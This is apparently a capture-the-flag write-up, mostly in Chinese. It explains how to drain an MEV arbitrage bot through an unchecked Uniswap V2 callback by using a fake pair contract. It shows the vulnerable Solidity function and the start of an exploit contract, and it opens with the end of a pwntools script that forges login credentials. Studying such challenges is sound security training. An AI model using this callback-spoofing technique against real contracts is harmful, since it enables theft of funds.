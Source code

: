 ```python
r.sendlineafter(b'> ', b + a)
r.sendlineafter(b'> ', b'x:x')
r.sendlineafter(b'> ', b'EOF')
r.recvuntil(b'Login credentials:\n')
cred = r.recvline().strip()
print(b + a)
cred = cred.replace(b + a + b':', c + b':' + b.hex().encode())
print(cred)
r.sendlineafter(b'Choice: ', b'2')
r.sendlineafter(b'Login credential: ', cred)
r.interactive()
```

# 链上猎手

阅读源码，可以发现题目大致如下：

- 会部署一种 token，两个 Uniswap V2 factory，以及该 token 和 WETH 的 pair。
- 有一个 MEV Bot，三道题会有不同的版本。
- MEV Bot 在每次出块后，会遍历 Uniswap 中所有 pair。假如两个 Uniswap 中都存在 WETH 到某 token 的 pair，则试图从这两个 pair 中套利。
- MEV Bot 在初始时会进行一次套利测试。
- 目标是清空 MEV Bot 的余额。
- 三道题目初始环境都是固定的，于是所有合约的地址都相同。

## The Maximal Extractable Value

阅读 `bot1.sol`，发现该函数没有限制发送者：

```solidity
function uniswapV2Call(address sender, uint, uint, bytes calldata data) external {
    require(IUniswapV2Pair(msg.sender).factory() == FACTORY1 || IUniswapV2Pair(msg.sender).factory() == FACTORY2);
    require(sender == address(this));
    (IUniswapV2Pair pair1, IUniswapV2Pair pair2, uint amount1, uint amount2, bool dir) = abi.decode(data, (IUniswapV2Pair, IUniswapV2Pair, uint, uint, bool));
    require(WETH.transfer(address(pair1), amount1));
    pair1.swap(dir ? amount2 : 0, dir ? 0 : amount2, address(pair2), '');
}
```

第二个 require 需要的东西在参数里面，可以直接绕过。

对于第一个 require，可以构造一个假的 Uniswap pair，使得 `factory()` 总是返回 `FACTORY1`。用它来调用该函数，就能让 Bot 往任意地方转账了。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Pair {
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function factory() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IWETH is IERC20 {
    function withdraw(uint256) external;
    function deposit() external payable;
}
```